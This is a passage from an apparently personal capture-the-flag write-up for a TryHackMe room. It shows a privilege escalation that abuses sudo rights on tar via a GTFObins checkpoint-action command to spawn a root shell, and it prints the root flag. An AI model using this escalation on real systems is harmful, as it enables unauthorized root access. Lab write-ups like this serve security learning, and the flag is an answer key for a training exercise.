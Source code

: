 Probably our initial attack vector.

## GTFObins

We search in [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) for tar :

<img src="../../Flameshots/5153273165b1c8ae2f19b9e68f7feaa1.png" alt="5153273165b1c8ae2f19b9e68f7feaa1.png" width="573" height="104">

Now we go in bin cause tar it's there and paste the command ;  
<br/>

```
lin@bountyhacker:~/Desktop$ cd bin
-bash: cd: bin: No such file or directory
lin@bountyhacker:~/Desktop$ cd /bin/
lin@bountyhacker:/bin$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
[sudo] password for lin: 
tar: Removing leading `/' from member names

# whoami
root
# cd/root/
/bin/sh: 3: cd/root/: not found
# cd ..
# ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
# cd root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}

```

And we have the root flag : THM{80UN7Y_h4cK3r} .

